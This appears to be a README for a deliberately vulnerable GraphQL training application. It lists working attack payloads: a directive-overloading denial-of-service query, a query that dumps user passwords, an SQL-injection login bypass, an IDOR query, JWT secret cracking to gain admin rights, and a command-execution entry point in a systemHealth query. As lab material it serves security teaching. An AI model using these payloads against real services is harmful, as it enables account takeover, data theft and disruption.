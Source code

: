 #### Directive Overloading

```json
{"query": "query cop { __typename @hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack@hack }" }
```

## Vulnerabilities

#### 1. Full Information disclosure of user details via Introspection Leak

```graphql
{
  users {
    user_id
    name
    email
    phone
    isAdmin
    password
    createdAt
  }
}
```

#### 2. SQL Injection at Login

```graphql
mutation {
  login(email: "peter@hack.org'--", password: "string")
}
```

#### 3. IDOR at Userdetails Query

```graphql
{
  user(user_id: "b9b854c0-ef42-11ef-9332-9f36ccc8fdcd") {
    name
    email
    phone
    password
  }
}
```
#### 4. Cracking JWT to become Admin user
1. Visit https://jwt-cracker.online/ and paste the JWT Choose the Scraped-JWT-Secrets.txt
   
   <img width="1419" alt="image" src="https://github.com/user-attachments/assets/a78d590b-8398-4f72-8486-d766e9b08f9d" />


#### 5. RCE at SystemHealth Query

```graphql
{
  systemHealth(input: "uptime")
}
```
